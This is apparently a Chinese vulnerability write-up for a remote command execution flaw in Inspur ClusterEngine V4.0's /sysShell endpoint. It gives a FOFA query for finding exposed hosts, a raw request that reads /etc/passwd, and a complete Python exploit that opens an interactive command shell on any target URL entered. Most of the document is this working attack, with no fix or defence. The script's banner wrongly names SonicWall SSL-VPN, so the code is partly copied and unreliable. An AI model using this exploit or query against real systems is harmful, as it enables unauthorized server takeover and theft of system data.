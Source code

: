# 浪潮ClusterEngineV4.0 sysShell 远程命令执行漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在远程命令执行，攻击者通过发送特殊的请求可以获取服务器权限

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0 

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](image\lc-1.png)

发送请求包

```
POST /sysShell HTTP/1.1
Host: xxx.xxx.xxx.xxx
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: lang=cn
Cache-Control: max-age=0
Content-Length: 42

op=doPlease&node=cu01&command=cat /etc/passwd
```

![](image/lc-17.png)

> [!NOTE]
>
> 注意参数 node 中的 cu01 需要为shell集群中的存在主机

![](image/lc-18.png)

这里可以配合任意用户登录漏洞查看主机名

## 漏洞利用

> [!NOTE]
>
> 如过出现 Name or service not 
>
> 请通过上述的方法查看 shell集群主机的名称（脚本默认 cu01）

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: SonicWall SSL-VPN                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/sysShell"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": "lang=cn"
    }
    data = "op=doPlease&node=cu01&command=cat /etc/passwd"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/sysShell \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/sysShell"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": "lang=cn"
    }
    data = "op=doPlease&node=cu01&command={}".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)

```

![](image/lc-17.png)

## Goby & POC

> [!NOTE]
>
> ClusterEngine V4.0 Shell cluster RCE

![](image/lc-20.png)